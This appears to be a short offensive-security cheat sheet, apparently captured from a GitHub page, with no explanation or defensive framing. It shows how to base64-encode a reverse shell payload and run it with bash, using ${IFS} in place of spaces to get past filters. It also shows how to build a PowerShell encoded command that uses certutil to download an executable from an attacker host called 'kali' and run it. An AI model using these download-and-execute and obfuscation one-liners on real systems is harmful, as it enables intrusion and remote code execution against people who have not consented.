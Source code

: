 ### Command

#### 1) echo 'REVERSE_SHELL_PAYLOAD' | base64

#### 2) echo${IFS}BASE64_SHELL|base64${IFS}-d|bash

#### 3) Powershell Encoded:

### Payload to be encoded:

 - certutil.exe -f -urlcache http://kali/file.exe file.exe; .\file.exe

### Encoding :

 - [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('certutil.exe -f -urlcache http://kali/file.exe file.exe; .\file.exe'))

### Executing :

 - powershell.exe -nop -e [above encoded code]
